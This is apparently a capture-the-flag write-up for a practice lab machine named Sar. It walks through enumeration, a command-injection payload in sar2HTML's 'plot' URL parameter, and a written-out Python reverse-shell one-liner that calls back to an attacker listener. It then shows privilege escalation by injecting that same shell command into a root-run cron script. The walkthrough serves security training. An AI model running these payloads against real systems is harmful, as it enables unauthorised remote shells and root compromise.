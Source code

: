 # Sar

Machine: [Sar](https://portal.offensive-security.com/labs/play)\
Difficulty: Warm up

## Enumeration

What operating system is on this machine? Linux What ports/services are on running on this machine?&#x20;

![](screenshots/1.png)

From the gobuster scan, I found a robots.txt file that contained interesting txt 'sar2HTML'. Comes to find out this is running on the Machine so we navigate the directory.\\

![Results!](screenshots/2.png)

What is sar2html? Sar2html is the plotting tool for system statistics (sar data) of following operating systems: HPUX 11.11, 11.23, 11,31. Redhat 3, 4, 5, 6, 7. Solaris 5.9, 5.10, 5.11. Suse 8, 9, 10, 11, 12.\\

![Results!](screenshots/4.png)

Looking up the version of sar2html, I find that the current version on this machine is vulnerable to remote command execution. Find the exploit [here](https://www.exploit-db.com/exploits/47204).\\

I typed this into the url initally to see how it worked: http://192.168.57.35/sar2HTML/index.php/index.php?plot=;pwd\
It took me a bit, but I found where the output is under the 'Select Host' drop down menu.

![Results!](screenshots/5.png)

From this, we can pass commands to output some information to us such as what is installed on this machine, what the persions of the files are etc. But since it is executing commands, we can use this to spawn a reverse shell. We will use python to do this. Parameter: python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'\\

![Results!](screenshots/6.png)

## Flags

User:

![Results!](screenshots/7.png)

Root:

I transfered linpeas over to the victim machine to see what I might be able to do in order to escalate privileges.

![Results!](screenshots/9.png)

Navigating to the cronjob directory we see two .sh files and one of them is the file that was reported by linpeas.sh.\\

&#x20;

![](screenshots/8.png)

Since finally.sh is getting executed every 5th minute by root and this script makes a call to write.sh which we have rw permissions, we can get a root shell this way. Since we already know python3 is running on the machine, lets just reuse the command that gave us the first shell.

Command: \<pre>echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("192.168.49.57",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'"\</pre>



I setup a netcat listener and I was able to get a root shell!

![Results!](screenshots/11.png)
